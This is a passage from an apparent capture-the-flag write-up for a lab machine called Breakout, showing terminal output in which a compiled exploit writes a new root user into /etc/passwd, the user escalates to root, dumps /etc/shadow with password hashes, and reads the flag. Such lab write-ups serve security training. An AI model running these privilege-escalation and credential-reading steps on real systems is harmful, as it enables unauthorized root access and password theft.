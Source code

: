```
cyber@breakout:~$ chmod +x exp 
chmod +x exp
cyber@breakout:~$ ./exp /etc/passwd 1 ootz:
./exp /etc/passwd 1 ootz:
It worked!
cyber@breakout:~$ su rootz
su rootz
whoami
rootz
id
uid=0(rootz) gid=0(root) groups=0(root)
cat /etc/shadow
root:$y$j9T$M3BDdkxYOlVM6ECoqwUFs.$Wyz40CNLlZCFN6Xltv9AAZAJY5S3aDvLXp0tmJKlk6A:18919:0:99999:7:::
daemon:*:18919:0:99999:7:::
bin:*:18919:0:99999:7:::
sys:*:18919:0:99999:7:::
sync:*:18919:0:99999:7:::
games:*:18919:0:99999:7:::
man:*:18919:0:99999:7:::
lp:*:18919:0:99999:7:::
mail:*:18919:0:99999:7:::
news:*:18919:0:99999:7:::
uucp:*:18919:0:99999:7:::
proxy:*:18919:0:99999:7:::
www-data:*:18919:0:99999:7:::
backup:*:18919:0:99999:7:::
list:*:18919:0:99999:7:::
irc:*:18919:0:99999:7:::
gnats:*:18919:0:99999:7:::
nobody:*:18919:0:99999:7:::
_apt:*:18919:0:99999:7:::
systemd-timesync:*:18919:0:99999:7:::
systemd-network:*:18919:0:99999:7:::
systemd-resolve:*:18919:0:99999:7:::
messagebus:*:18919:0:99999:7:::
cyber:$y$j9T$x6sDj5S/H0RH4IGhi0c6x0$mIPyCIactTA3/gxTaI7zctfCt2.EOGXTOW4X9efAVW4:18919:0:99999:7:::
systemd-coredump:!*:18919::::::
rootz@breakout:~# cat rOOt.txt
cat rOOt.txt
3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

Author: Icex64 & Empire Cybersecurity
rootz@breakout:~# 


```
![Screenshot From 2025-05-04 03-26-21](https://github.com/user-attachments/assets/67bb0ad7-4e08-4036-b97b-d3423de353f7)

3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

## Your work you have to login into webmin as the root.
![Screenshot From 2025-05-04 05-38-48](https://github.com/user-attachments/assets/6a0ab1f7-2cc0-41a4-a3e7-1690b589caf5)

## Bye

> I think you have find this thing valuable if yes share with thw world now to get more special lists of computers.
{: .prompt-tip }
